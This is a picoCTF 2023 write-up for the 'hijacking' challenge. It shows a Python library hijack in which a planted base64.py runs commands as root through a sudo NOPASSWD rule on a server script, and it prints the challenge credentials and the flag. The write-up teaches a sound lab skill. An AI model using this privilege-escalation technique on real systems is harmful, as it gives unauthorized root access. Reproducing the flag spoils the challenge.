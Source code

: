 # picoCTF 2023 - hijacking (Binary Exploitation)

## Description 

Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.

Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

saturn.picoctf.net 52795
Username: picoctf
Password: EVf4z1Lz73

## Solution 

Hinted by the name and the python file with owned by root, this is a python library hijacking problem. 
After sshed to the server, we see that a hidden file that imported some packages. 
I decided to hijack the `base64` library. 

I created a file called `base64.py` in the same directory as the python file with the following content. 
As python will look for packages in the current directory first, my `base64.py` will be used when imported. 

```python 
import os
print("hijacked") 
os.system("whoami")
```

Using `python3 .server.py`, I got 
```
hijacked 
picoctf 
... ...
```
This is not what we want. 
Using `sudo -l`, we got 
```
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```
We see that `/usr/bin/python3` does not require password to run as root. 
Thus, I tried `sudo /usr/bin/python3 /home/picoctf/.server.py` and I got 
```
hijacked
root
... ...
```
Now, we basically have a shell with root privilege.
I found that the folder `/challenge` is owned by root and I don't have access. 
I added a line `os.system("ls -r /challenge")` to `base64.py` and I saw a `metadata.json` file. 
Then, I added a line `os.system("cat /challenge/metadata.json")` again and this is the result. 
```
hijacked
root
metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "EVf4z1Lz73"}
... ...
```

## Flag 

`picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}`